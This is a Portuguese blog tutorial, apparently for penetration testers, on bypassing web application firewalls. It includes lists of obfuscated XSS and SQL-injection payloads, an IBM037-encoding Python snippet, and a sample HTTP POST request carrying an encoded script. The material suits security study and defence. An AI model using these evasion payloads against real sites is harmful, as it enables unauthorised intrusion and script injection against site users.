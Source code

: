 ```yaml
---
date: 2023-01-07 16:58:42
layout: post
title: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
description: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_q61cuu.jpg
optimized_image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_optimized_ooub1l.jpg
category: ciberseguranca
tags:
  - waf
  - cybersecurity
author: brunocosta
paginate: false
---
```

> **Aviso: Conteúdo Sensível em Cibersegurança**

> Este aviso tem o objetivo de informar sobre a natureza sensível do conteúdo relacionado à cibersegurança que será abordado neste texto. O conteúdo a seguir foi criado com fins puramente educacionais e para pesquisa, visando a conscientização e a compreensão dos desafios enfrentados na proteção de sistemas e informações digitais.

Neste artigo, discutiremos as ferramentas e técnicas usadas por testadores de penetração de aplicativos da web e pesquisadores de segurança para contornar com sucesso as proteções do Firewall de Aplicativos da Web (WAF).

Dependendo dos mecanismos usados pelo firewall, os métodos de bypass podem variar. Por exemplo, os WAFs podem utilizar expressões regulares (regex) para detectar tráfego malicioso. As expressões regulares são usadas para identificar padrões em uma sequência de caracteres. Você pode ler mais sobre elas [aqui](https://regexr.com/). Além disso, os WAFs também podem usar detecção baseada em assinatura, na qual sequências conhecidas de tráfego malicioso possuem uma assinatura armazenada em um banco de dados, e o firewall verifica se há correspondência entre o tráfego da web e as assinaturas no banco de dados. Se houver correspondência, o tráfego é bloqueado. Além disso, alguns firewalls usam detecção baseada em heurística.

Agora vamos explorar algumas técnicas comuns de bypass do WAF juntamente com exemplos.

1. **Ignorando o Regex**: Este método se aplica à filtragem baseada em regex feita pelo WAF e pelo servidor web. Durante um teste de penetração de caixa preta, pode ser difícil descobrir a expressão regular exata utilizada pelo WAF. No entanto, se a expressão regular for conhecida, é possível contorná-la usando algumas técnicas. Aqui estão alguns exemplos:

   - Alteração do caso da carga útil
   - Uso de várias codificações
   - Substituição de funções ou caracteres
   - Uso de sintaxe alternativa
   - Uso de quebras de linha ou tabulações

   Os exemplos abaixo demonstram algumas abordagens para contornar o regex com comentários.
```
<sCrIpT>alert(XSS)</sCriPt> #alterando o caso da tag
<< script>alert(XSS)</script > #prependendo um "<"
<script>alert(XSS) adicional // #removendo o fechamento tag
<script>alert`XSS`</script> #usando acentos graves em vez de parênteses
java%0ascript:alert(1) #usando caracteres de nova linha codificados
<iframe src=http://malicous.com < #colchetes angulares duplos
<STYLE >.classname{background-image:url( "javascript:alert(XSS)" );}</STYLE> #tags incomuns
<img/src=1/onerror=alert(0)> #ignorar filtro de espaço usando / where espera-se um espaço
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaa aaaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #caracteres extras
```



2. **Ofuscação**: Embora a ofuscação seja uma maneira possível de ignorar o regex, eles foram divididos em diferentes seções para mostrar mais exclusivamente uma seleção de técnicas de ofuscação. A ofuscação é uma técnica utilizada para tornar o código malicioso mais difícil de ser detectado pelo WAF. Aqui estão alguns exemplos de técnicas de ofuscação:

   - Uso de funções incomuns além de alert, console.log e prompt
   - Codificação octal
   - Codificação Unicode
   - Uso de comentários para quebrar instruções SQL
   - Uso de acentos graves ao invés de parênteses
   - Codificação Base64 do JavaScript
   - Codificação HTML

   Essas técnicas podem ajudar a contornar a detecção do WAF.
```
Function( "ale" + "rt(1)" )(); #usando funções incomuns além de alert, console.log e prompt
javascript:74163166147401571561541571411447514115414516216450615176 #codificação octal
<iframe src= "javascript:alert(`xss`)" > #codificação unicode
/? id =1+un/**/ion+sel/**/ect+1,2,3-- #usando comentários na consulta SQL para quebrar a instrução
new Function`alt\`6\``; #usando acentos graves ao invés de parênteses
data:text/html; base64 ,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 codificando o javascript
%26%2397;lert(1) #usando codificação HTML
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)" > #Using Line Feed (LF) line breaks
<BODY onload! #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use quaisquer caracteres que não sejam letras, números ou caracteres de encapsulamento entre o manipulador de eventos e o sinal de igual (só funciona no motor Gecko)
```



3. **Variáveis não inicializadas**: Uma técnica potencialmente útil envolve o uso de variáveis não inicializadas na solicitação. Isso pode ser especialmente útil em cenários de execução de comandos, onde o Bash trata variáveis não inicializadas como strings vazias. Ao concatenar strings vazias com uma carga útil de comando, é possível obter o resultado desejado. Isso pode ser usado como uma forma de ofuscação para contornar firewalls.



4. **Tamanho do conteúdo**: Alguns WAFs baseados em nuvem podem não verificar uma solicitação se o tamanho do conteúdo exceder um limite específico. Nesses casos, é possível contornar o firewall aumentando o tamanho do corpo da solicitação ou da URL.

4. **Conjunto de caracteres**: A técnica de Conjunto de Caracteres envolve a modificação do cabeçalho Content-Type para usar um conjunto de caracteres diferente, como por exemplo "ibm500". Um WAF que não está configurado para detectar cargas maliciosas em diferentes codificações pode não reconhecer a solicitação como maliciosa. A codificação do conjunto de caracteres pode ser feita em Python da seguinte maneira:

```python
import urllib.parse
s = '<script>alert("xss")</script>'
urllib.parse.quote_plus(s.encode("IBM037"))
```

A string codificada pode então ser enviada no corpo da solicitação e carregada no servidor, como exemplificado abaixo:

```
POST /comentário/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 74

%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n
```

Essa técnica permite que a solicitação seja processada pelo servidor, contornando as verificações do WAF que não estão configuradas para detectar essa codificação específica.




Para obter mais informações e explorar outras técnicas, veja mais em:
- [How to bypass WAF - HackenProof Cheat Sheet](https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/)
- [Bypassing Web Application Firewall (WAF) - Unicode](https://jlajara.gitlab.io/Bypass_WAF_Unicode)
- [Web Application Firewall Bypass Techniques](https://blog.yeswehack.com/yeswerhackers/web-application-firewall-bypass/)
- [Identifying Web Application Firewall in a Network](https://www.sisainfosec.com/blogs/identifying-web-application-firewall-in-a-network/)
- [OWASP Stammtisch Frankfurt - WAF Profiling and Evasion](https://owasp.org/www-pdf-archive/OWASP_Stammtisch_Frankfurt_WAF_Profiling_and_Evasion.pdf)
- [5 Ways I Bypassed Your Web Application Firewall (WAF)](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2)

Esses recursos oferecem informações valiosas sobre como contornar as proteções do WAF em diferentes cenários.